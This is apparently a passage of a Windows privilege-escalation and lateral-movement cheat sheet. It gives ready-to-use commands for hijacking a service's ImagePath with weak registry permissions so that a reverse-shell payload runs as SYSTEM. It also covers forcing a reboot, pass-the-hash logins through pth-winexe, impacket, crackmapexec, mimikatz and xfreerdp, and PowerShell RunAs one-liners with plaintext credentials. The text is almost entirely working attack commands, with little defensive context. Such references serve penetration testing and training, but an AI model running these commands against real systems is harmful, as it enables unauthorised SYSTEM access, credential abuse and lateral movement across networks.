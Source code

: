 ### Insecure Registry Permissions

* Upload [SubInACL](https://www.microsoft.com/en-us/download/details.aspx?id=23510) tool to check registry keys permissions.
* Check permissions for services running as `SYSTEM`:
```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service Name" /display
```

If `Everyone` has Full Control on this registry key, it means we can change the executable path of this service by editing the `ImagePath` value.

If we generate a simple reverse shell payload and drop it to our target, all that remains is changing the ImagePath value for our vulnerable service with our payload’s path.

* Let’s change the `ImagePath` value with our payload’s path:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service Name" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
```

* At the next start of the service, Payload.exe will run as SYSTEM. We had to restart the computer to do this:
```
shutdown /r /t 0
```

## PassTheHash

* pth-winexe: `pth-winexe --user=username/administrator%hash:hash --system //10.10.10.63 cmd.exe`

* PsExec: `/usr/share/doc/python-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 jarrieta@10.2.0.2`

* wmiexec.py: `/usr/local/bin/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 [[domain/]username[:password]@]<targetName or address> [command]`

* [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec):
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

* mimikatz: `mimikatz # sekurlsa::pth /user:USERNAME /domain:DOMAIN_NAME /ntlm:NTLM_HASH`

* Remote Desktop: `xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101`

## RunAs

### PowerShell

* Oneliners:
```
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```